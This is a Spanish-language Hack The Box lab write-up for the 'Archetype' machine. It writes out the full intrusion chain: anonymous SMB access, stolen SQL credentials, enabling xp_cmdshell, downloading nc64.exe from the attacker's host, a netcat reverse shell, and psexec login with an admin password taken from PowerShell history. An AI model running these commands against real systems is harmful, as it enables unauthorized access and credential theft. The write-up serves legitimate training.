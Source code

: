 ```yaml
---
title: Writeup archetype - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - archetype
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina archetype en Hack The Box.
keywords:
  - writeup archetype
  - hack the box archetype
  - resolución máquina archetype
  - archetype hack the box
  - htb archetype
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Windows/Archetype)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Xz5oX2bH5VM)|[Parte2](https://www.youtube.com/watch?v=562uiR37VvA)
- 🧠 **Explicación resumida**: 

--------

#veryeasy #windows #nmap #ping #smb #netcat #impacket-mssqlclient

---
# Guided Mode

1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt

---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`445` [[smb]]
*Datos Importantes:*
	Nos podemos conectar con el usuario guest a [[smb]]

-------
# Intrusion por [[smb]] 

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups con el comando `get prod.dtsConfig` y luego lo abrimos en nuestra maquina
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

-----
# Nos conectamos a la base de datos con [[impacket-mssqlclient]]

Vamos a entablar la conexion con el comando `impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_svrolemember('sysadmin')` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]]

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[Herramientas-Comandos/Bases de datos/SQL/MSSQL/xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell


---------

# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap -cAr nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Imagenes/Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]


-------
# Escalada de privilegios con [[Logs de la powershell y de consola]]

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!
#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]

--------

--------
# Creditos
Writeup Oficial HackTheBox